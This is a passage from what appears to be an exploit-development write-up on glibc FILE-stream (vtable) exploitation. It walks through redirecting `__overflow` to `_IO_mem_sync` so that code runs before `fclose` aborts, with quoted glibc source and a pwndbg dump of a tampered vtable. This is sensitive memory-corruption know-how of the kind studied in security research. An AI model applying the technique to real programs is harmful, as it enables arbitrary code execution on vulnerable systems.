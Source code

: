 I purposefully used a combo like `fputc` and `fclose` in my PoC to highlight some caveats with `_IO_mem_sync` primitive but also to highlight a crazy bypass and also a more useful general technique to get code execution from most of the abort checks in glibc. 

If we do not get code execution before `fclose` we are doomed to crash and here is the reason:
```c
int
fputc (int c, FILE *fp)
{
  int result;
	...
  result = _IO_putc_unlocked (c, fp);
	...
  return result;
}
```
`fputc` is pretty simple to understand essentially does some locking and just calls `_IO_putc_unlocked`.
```c
#define _IO_putc_unlocked(_ch, _fp) __putc_unlocked_body (_ch, _fp)
```
`_IO_putc_unlocked` is just an alias for `__putc_unlocked_body`.
```c
#define __putc_unlocked_body(_ch, _fp)					\
  (__glibc_unlikely ((_fp)->_IO_write_ptr >= (_fp)->_IO_write_end)	\
   ? __overflow (_fp, (unsigned char) (_ch))				\
   : (unsigned char) (*(_fp)->_IO_write_ptr++ = (_ch)))
```
The magic will happen actually here and we want to point `__overflow` to `_IO_mem_sync`.
After executing `_IO_mem_sync`, `fputc` pretty much will do some foo and will return back to main. 
The real problem is when we will reach to `fclose`. Our vtable pointer must look like that so far:
```c
pwndbg> p *((struct _IO_jump_t*)0x7ffff7f8f288)
$4 = {
  __dummy = 140737352075824,
  __dummy2 = 140737352070272,
  __finish = 0x7ffff7e07360 <_IO_default_setbuf>,
  __overflow = 0x7ffff7e00bd0 <_IO_mem_sync>,
  __underflow = 0x7ffff7e074f0 <__GI__IO_default_doallocate>,
  __uflow = 0x7ffff7e083a0 <_IO_default_read>,
  __pbackfail = 0x7ffff7e083b0 <_IO_default_write>,
  __xsputn = 0x7ffff7e08380 <_IO_default_seek>,
  __xsgetn = 0x7ffff7e076f0 <_IO_default_sync>,
  __seekoff = 0x7ffff7e08390 <_IO_default_stat>,
  __seekpos = 0x7ffff7e083c0 <_IO_default_showmanyc>,
  __setbuf = 0x7ffff7e083d0 <_IO_default_imbue>,
  __sync = 0x0,
  __doallocate = 0x0,
  __read = 0x0,
  __write = 0x0,
  __seek = 0x0,
  __close = 0x7ffff7e088d0 <_IO_str_finish>,
  __stat = 0x7ffff7e01310 <_IO_strn_overflow>,
  __showmanyc = 0x7ffff7e084d0 <__GI__IO_str_underflow>,
  __imbue = 0x7ffff7e06d10 <__GI__IO_default_uflow>
}
```
As we said earlier `fclose` eventually will call `__finish` which currently points to `_IO_default_setbuf`.
```c
FILE *
_IO_default_setbuf (FILE *fp, char *p, ssize_t len)
{
    if (_IO_SYNC (fp) == EOF)
        return NULL;
	...
```